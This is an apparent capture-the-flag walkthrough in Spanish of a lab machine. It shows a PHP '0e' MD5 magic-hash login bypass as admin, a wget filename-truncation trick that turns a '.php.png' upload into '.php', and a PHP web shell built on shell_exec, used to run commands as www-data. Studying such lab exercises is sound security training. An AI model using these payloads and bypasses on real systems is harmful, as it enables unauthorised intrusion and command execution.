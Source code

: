 Si miramos por google por `0e hash collision` por ejemplo el articulo de [ycombinator](https://news.ycombinator.com/item?id=9484757), vemos quel hash md5 de `240610708`
da un hash `0e462097431906509019562988736854` o el hash md5 de `QNKCDZO` nos da `0e830400451993494058024219903391`.

En php, si la comparativa es con un doble igual, estos dos hashes son iguales. Si vamos a la pagina de login y entramos el usuario *admin* y la contraseña *QNKCDZO*,
conseguimos loggearnos como el usuario admin.

### Burlar el upload de imagenes {-}

Una vez loggeados entramos en el panel de upload. Aqui la web nos pone de uploadear una imagen desde una url. Recuperamos una imagen de pollo en la web y la copiamos
en nuestro directorio de trabajo. Lanzamos un servidor web con python `python3 -m http.server 80` y uploadeamos el fichero desde la web poniendo la url `http://10.10.14.15/madafackingchicken.png`.

Aqui nos sale un Output con el commando lanzado por la maquina victima :

```bash
CMD: cd /var/www/html/uploads/0026-2354_e426c9e8c2f64caa; wget 'http://10.10.14.15/madafackingchicken.png'
```

Si miramos en la url `http://10.10.10.73/uploads/0026-2354_e426c9e8c2f64caa/madafackingchicken.png` vemos la imagen del pollo que hemos enviado a la web.

#### wget vulnerabilidad {-}

Tito S4vitar nos avanza aqui que el programa solo permite enviar ficheros con extension `png` o sea ya sabemos que no podemos enviar ficheros `.php`. Pero como
conocemos el commando echo por la maquina victima, y vemos que se utiliza el commando wget, ya tenemos una via potencial de ataque, el nombre de caracteres del nombre del fichero.
En linux, un fichero solo puede tener un nombre de fichero inferior a 255 caracteres incluida la extension. En el caso de un ficher `.png`, el limite maximo de un fichero
seria un nombre de 251 caracteres seguidos de la extension `.png`.

Copiando el resultado del comando `python -c "A"*251 + ".png"` y cambiando el nombre del fichero `madafackingchicken.png` con ello, si uploadeamos este fichero en la web,
vemos que en el resultado de **Saving To** que solo guarda un 235 "A" como nombre de fichero. Esto quiere decir que si enviamos un ficher que tiene como nombre `231 A` con una extesion `.php.png`
la web va a ver que el fichero es un ficher `.png` pero al momento de guardarlo, va a guardar los 235 primeros caracteres que equivalen a `231 A` y la extension `.php`

Creamos un fichero php

```php
touch AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.png
vi AAAAAA*

<?php
    echo "<pre>" .shell_exec($_REQUEST['cmd']) ."</pre>";
?>
```

Si enviamos este fichero, vemos que el fichero se a enviado como fichero **.png** pero salvado como fichero **.php** si vamos a la url `http://10.10.10.73/uploads/0026-2354_e426c9e8c2f64caa/AAAAAAAAAA.......AAAA.php?cmd=whoami`
vemos que somos `www-data`.
